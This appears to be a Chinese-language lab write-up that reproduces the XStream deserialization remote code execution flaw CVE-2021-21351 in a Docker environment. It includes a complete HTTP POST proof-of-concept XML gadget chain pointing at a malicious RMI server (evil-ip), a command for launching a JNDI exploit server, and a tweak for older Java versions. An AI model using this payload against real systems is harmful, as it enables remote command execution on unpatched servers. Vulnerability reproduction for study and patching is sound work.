 # XStream 反序列化命令执行漏洞（CVE-2021-21351）

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## 漏洞环境

执行如下命令启动一个Springboot + XStream 1.4.15的环境：

```
docker compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![](1.png)

## 漏洞复现

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意JNDI服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 192.168.1.142
```

![](2.png)

使用上图中基于SpringBoot利用链的RMI地址作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://evil-ip:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

其中，evil-ip是恶意RMI服务器的地址。然后，进入目标容器内，可见``touch /tmp/success``已成功执行：

![](3.png)

在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。
